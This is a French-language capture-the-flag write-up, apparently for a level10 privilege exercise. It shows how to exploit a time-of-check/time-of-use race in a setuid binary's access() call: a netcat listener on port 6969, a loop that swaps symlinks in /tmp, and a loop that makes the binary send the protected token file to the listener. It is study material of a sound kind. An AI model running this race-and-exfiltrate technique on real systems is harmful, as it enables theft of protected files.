 ici on as aussi un binaire un un ficher `token`

On test donc
```bash
./level10 token
```

Cela nous marque
```
./level10 file host
	sends file to host if you have access to it
```

On fat un `strings` sur le binaire et on vois qu'il envoie sur le port `6969`

On met donc en place un server netcat qui ecoute sur ce port
`nc -l 6969`

En faisant ub `nm` on vois que le programe utilise `access` qui contient une faille
```
       Warning:  Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates
       a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.   For
       this  reason,  the use of this system call should be avoided.  (In the example just described, a safer alternative would be to tempo‐
       rarily switch the process's effective user ID to the real ID and then call open(2).)
```
Il suffit de bruteforce

```bash
while true ; do ./level10 token ip:6969 ; done
```
je n'est pas acces a token

je decide de le mettre dans le tmp token
```bash
while true ; do ./level10 /tmp/token ip:6969 ; done
```

Toujours pas

Apres reflection
Comme `level10` a des permission avec l'utilisateur `level10` mais pas `token` pour exploiter la faille de acces au mieux il faudrais swap les deux fichier avec un lien synblique par exemple dans `/tmp/`

```bash
while true; do ln -fs ~/level10 /tmp/token; ln -fs ~/token /tmp/token; done
```

puis
```bash
while true ; do ./level10 /tmp/token ip:6969 ; done
```

On fait tourner les 3 programes et c'est bon !
